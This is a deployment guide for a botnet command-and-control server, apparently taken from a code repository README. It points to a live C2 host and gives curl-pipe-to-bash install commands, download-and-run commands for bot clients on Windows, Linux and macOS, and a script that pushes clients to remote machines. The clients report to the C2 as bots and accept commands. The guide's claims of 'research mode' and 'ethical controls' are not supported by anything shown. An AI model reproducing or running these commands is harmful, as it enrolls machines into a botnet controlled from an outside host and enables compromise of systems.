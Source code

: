 # 🚀 Quick Client Deployment Guide

Your C2 server is live at **https://botnet-xdio.onrender.com/** - let's deploy clients!

## ⚡ One-Command Deployments

### **Deploy on Current Machine**
```bash
# Auto-detect platform and deploy
curl -s https://botnet-xdio.onrender.com/install | bash
```

### **Download Specific Platform**

**Windows:**
```powershell
# Download Windows client
curl -L https://botnet-xdio.onrender.com/download/client-windows.exe -o bot-client.bat

# Run client
./bot-client.bat
```

**Linux:**
```bash
# Download Linux client
wget https://botnet-xdio.onrender.com/download/client-linux -O bot-client

# Make executable and run
chmod +x bot-client
./bot-client
```

**macOS:**
```bash
# Download macOS client
curl -L https://botnet-xdio.onrender.com/download/client-macos -o bot-client

# Make executable and run
chmod +x bot-client
./bot-client
```

## 🎯 Using the Deployment Script

```bash
# Make deployment script executable
chmod +x client-deployment/deploy-to-live-server.sh

# Deploy on local machine
./client-deployment/deploy-to-live-server.sh local

# Deploy to remote machine
./client-deployment/deploy-to-live-server.sh remote 192.168.1.100

# Check status
./client-deployment/deploy-to-live-server.sh status

# Emergency stop all clients
./client-deployment/deploy-to-live-server.sh stop
```

## 📊 Live Dashboard Access

- **Main Dashboard**: https://botnet-xdio.onrender.com/
- **API Status**: https://botnet-xdio.onrender.com/api/status
- **Health Check**: https://botnet-xdio.onrender.com/health

## 🤖 What the Clients Do

The clients will:
- ✅ **Connect to your live C2 server** at https://botnet-xdio.onrender.com
- ✅ **Report as active bots** in your dashboard
- ✅ **Send periodic heartbeats** every 30 seconds
- ✅ **Run in research mode** with ethical controls
- ✅ **Show up in the Bot Management** tab

## 🔍 Monitor Your Deployment

1. **Go to**: https://botnet-xdio.onrender.com/
2. **Click**: "Bot Management" tab
3. **See**: Connected clients appear in the table
4. **Watch**: Real-time statistics update in Dashboard tab

## ⚠️ Important Notes

- 🔬 **Research Mode Only**: All clients run with ethical controls
- 📝 **Activity Logged**: All connections and commands are logged
- 🛡️ **Safe Testing**: Only deploy on systems you own or have permission to test
- 🚨 **Emergency Stop**: Use the emergency stop feature if needed

## 🎉 You're Ready!

Your C2 server is live and ready to accept client connections. Deploy clients using any of the methods above and watch them appear in your dashboard! 🎯
